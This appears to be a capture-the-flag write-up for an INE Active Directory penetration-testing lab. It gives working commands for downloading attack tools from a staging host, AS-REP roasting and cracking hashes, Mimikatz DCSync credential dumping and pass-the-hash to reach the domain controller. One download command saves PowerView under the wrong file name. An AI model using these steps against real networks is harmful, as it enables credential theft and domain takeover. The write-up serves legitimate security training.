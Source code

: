INE - eCPPTv3 - Active Directory Penetration Testing CTF 1


# 1. flag:

You start on machine named Client with the user student.

RDP on the desktop has the target host target.research.security.local saved, with the username set as bobby. Tried the example password password1—successfully logged in.

# 2. flag:

Lets AS-REP Roast.

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/PowerView.ps1" -Outfile mimi.ps1
powershell -ep bypass
. .\PowerView.ps1
```

List users with DONT_REQ_PREAUTH:
```
Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }
```

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/Rubeus.exe" -Outfile Rubeus.exe
.\Rubeus.exe asreproast /user:johnny /outfile:johnhash.txt
```

```
.\johnTheRipper\john-1.9.0-jumbo-1-win64\run\john.exe .\johnhash.txt --format=krb5asrep -wordlist=.\10k-worst-pass.txt
```

RDP in with johhny for next flag.


# 3. flag:

On CLIENT macine:

```
powershell -ep bypass
. .\PowerView.ps1
Find-LocalAdminAccess
```

 Access the **seclogs.research.SECURITY.local** machine:
 
```
Enter-PSSession seclogs.research.SECURITY.local
```

# 4. flag:

Let’s pivot to the domain controller (prod.research.security.local)—identified via the output of:
nslookup -type=srv _ldap._tcp.dc._msdcs.research.security.local.

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/Invoke-Mimikatz.ps1" -Outfile mimi.ps1
. .\mimi.ps1

[seclogs.research.SECURITY.local]: PS C:\Users\student.RESEARCH\Documents> Invoke-Mimikatz -Command '"privilege::debug"
"token::elevate" "lsadump::dcsync /domain:research.security.local /user:"CN=Administrator,CN=Users,DC=research,DC=security,DC=l
ocal""'

 OR

[seclogs.research.SECURITY.local]: PS C:\Users\student.RESEARCH\Documents> Invoke-Mimikatz -Command '"privilege::debug"
"token::elevate" "lsadump::dcsync /domain:research.security.local /user:administrator@research.security.local"'

```

On CLIENT

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:38a...b81d9 /run:powershell.exe"'
```

Now, access the Domain Controller:
```
Enter-PSSession prod.research.SECURITY.local
```
That's it.
